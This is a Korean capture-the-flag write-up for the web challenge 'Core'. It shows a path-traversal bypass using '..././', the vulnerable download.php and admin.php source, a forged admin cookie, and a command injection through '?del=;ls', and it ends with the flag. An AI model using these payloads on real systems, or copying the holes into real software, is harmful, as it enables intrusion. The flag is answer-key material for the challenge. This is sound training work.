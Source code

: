 # Core

**Description:**
> 핵 실험은 진행 중... :(  
> (Core/Kernel/Nucleus/Hack)

## Keyword
* File Download  
* Command Injection

## Solution
![Main](img/001.png)  
메인 페이지에 접근해보면 핵폭발 후 생기는 버섯구름처럼 보이는 것을 볼 수 있습니다.  
버섯구름 아래에 보면 초록색으로 되어있는 잡초를 볼 수 있고 눌러보면 php 파일이 다운로드 됩니다.

우선 다운로드 되는 경로를 살펴보면 다음과 같습니다.  
/download.php?file=hack  
/download.php?file=the  
/download.php?file=planet

실제로 다운로드 받은 파일을 보면 hack, the, planet과 같이 파일명을 입력하면 php 확장자를 붙여서 다운로드 됩니다.  
따라서 download.php 파일을 다운로드 받기 위해서는 다음과 같이 시도할 수 있습니다.  
/download.php?file=download  
/download.php?file=../download  
하지만, 두 경우 모두 Not Found로 파일을 다운로드 받을 수가 없습니다.

상대 경로로 상위 이동하여 파일을 다운로드 받는 부분이 정상적으로 동작하는지 알기 위해서 다음과 같이 시도하여 정상적으로 파일이 다운로드 되면 상위 경로로 올라가는 "../" 문자열이 필터링되어 있는 것을 추측할 수 있습니다.

/download.php?file=../hack  
시도한 결과, hack.php 파일이 정상적으로 다운로드가 되었습니다.

이 부분을 우회하기 위해서 "../"를 이중으로 넣어서 우회할 수 있습니다.  
다음과 같이 시도해보면 download.php 파일이 정상적으로 다운로드 되는 것을 볼 수 있습니다.  
/download.php?file=..././download

download.php:  
```php
<?php
    $file = isset($_GET['file']) ? $_GET['file'] : false;
    if($file) {
        if(@preg_match("/Core/i", $_GET['file'])) exit("Access Denied!");
        $_GET['file'] = str_replace("../", "", $_GET['file']);

        $split_path = @explode("/", $_GET['file']);
        $path = "";
        for($i=0;$i<count($split_path)-1;$i++) {
            $path .= $split_path[$i]."/";
        }
        $real_path = realpath('files/'.$path);
        if(strpos($real_path, "Core") === false) exit("Access Denied!");
        @$file_path = "files/".$_GET['file'].".php";

        $filesize = @filesize($file_path);
        $path_parts = @pathinfo($file_path);
        $filename = $path_parts['basename'];
        $extension = $path_parts['extension'];

        if(!$filesize) exit("Not Found");
        header("Pragma: public");
        header("Expires: 0");
        header("Content-Type: application/octet-stream");
        header("Content-Disposition: attachment; filename=\"$filename\"");
        header("Content-Transfer-Encoding: binary");
        header("Content-Length: $filesize");
        ob_clean();
        flush();
        readfile($file_path);
    } else {
        print("Access Denied!");
    }
?>
```

download.php 소스 코드를 보면 파일이 다운로드 되는 과정을 볼 수는 있지만 추가적인 정보를 얻기에는 부족합니다.  
다시 처음으로 돌아가서 메인 페이지의 소스 코드를 보면 다음과 같은 코드를 볼 수 있습니다.  
```css
.hint:sublime { text-decoration: none; }
```

![Hint](img/002.png)  
힌트는 Sublime Text로 메인 페이지의 소스를 Sublime Text로 보면 ADMIN이라는 문자열을 확인할 수 있고 admin으로 파일 다운로드를 시도하면 admin.php 파일을 획득할 수 있도록 마련한 장치입니다.  
/download.php?file=..././admin

admin.php:  
```php
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <style type="text/css">
        body { background-color: #1d1d1d; color: #ffffff; padding: 90px; }
        a { text-decoration: none; color: #61646d; padding-left: 30px; }
        h1 { display: inline-block; color: #b20000;}
    </style>
    <title>ADMIN</title>
</head>
<body>
<?php
    @include 'config.php';

    print("<h1>Admin Page</h1>");
    print("<img src='files/worker.png'>"); 
    print("<br>Our website is still under construction. Sorry for the inconvenience...");
    @exec("ls files/",$list);

    $del = isset($_GET['del']) ? $_GET['del'] : false;
    if($del) {
        if(@preg_match("/\*/i", $_GET['del'])) exit("Access Denied!");
        if(@strlen($del) <= 3) {
            @system("rm -f files/$_GET[del]");
        }
    }
    print("<h2>Lists...</h2>");
    for($i=0;$i<count($list);$i++) {
        print("<a href='?del=$list[$i]' onclick='alert(\"Unimplemented :(\");'>[DEL]</a> $list[$i]<br>");
    }
?>
</body>
</html>
```

admin.php 파일을 보면 config.php 파일을 확인할 수 있고 동일한 방법으로 다운로드 받아서 파일을 확인할 수 있습니다.  
/download.php?file=..././config

config.php:  
```php
<?php
    if($_COOKIE['admin'] != "true") exit("Access Denied!");
?>
```

두 파일의 정보를 바탕으로 'admin' 쿠키 값을 "true"로 설정하고 admin.php 파일에 접근하면 관리자 페이지에 접근할 수 있습니다.  
![AdminPage](img/003.png)

그리고 admin.php 파일을 보면 다음과 같이 GET 파라미터로 값을 전달 받아서 파일을 삭제하는 부분을 볼 수 있으나, 아직 개발이 완료되지 않아서 전체 삭제가 되지 않도록 *(asterisk) 기호는 필터링되어 있고 글자 길이도 3 글자가 넘을 경우 실행되지 않도록 처리되어 있는 것을 볼 수 있습니다.  
```php
    $del = isset($_GET['del']) ? $_GET['del'] : false;
    if($del) {
        if(@preg_match("/\*/i", $_GET['del'])) exit("Access Denied!");
        if(@strlen($del) <= 3) {
            @system("rm -f files/$_GET[del]");
        }
    }
```

보다 많은 정보를 얻기 위해서 이 부분을 우회하여 명령어가 실행되도록 아래와 같이 시도할 수 있습니다.  
/admin.php?del=;ls  
![AdminPage](img/004.png)

;ls를 입력하면 system("rm -f files/;ls");가 실행되기 때문에 현재 디렉터리의 파일 목록을 볼 수 있습니다.  
;는 명령어와 명령어 사이에 입력할 경우 두 명령어를 각각 실행할 수 있도록 구분지어 주는 역할을 해줍니다.  
그리고 ls가 실행된 결과를 보면 7h1s_is_f1a9.php 파일을 확인할 수 있습니다.

7h1s_is_f1a9.php 파일을 다운로드 받아서 확인해보면 Flag를 획득할 수 있습니다.  
/download.php?file=..././7h1s_is_f1a9

7h1s_is_f1a9.php:  
```php
<?php
    print("Access Denied!");
    # Flag is TDCTF{C0R3_H4CK_NUCL3U5}
?>
```

## Flag
TDCTF{C0R3_H4CK_NUCL3U5}
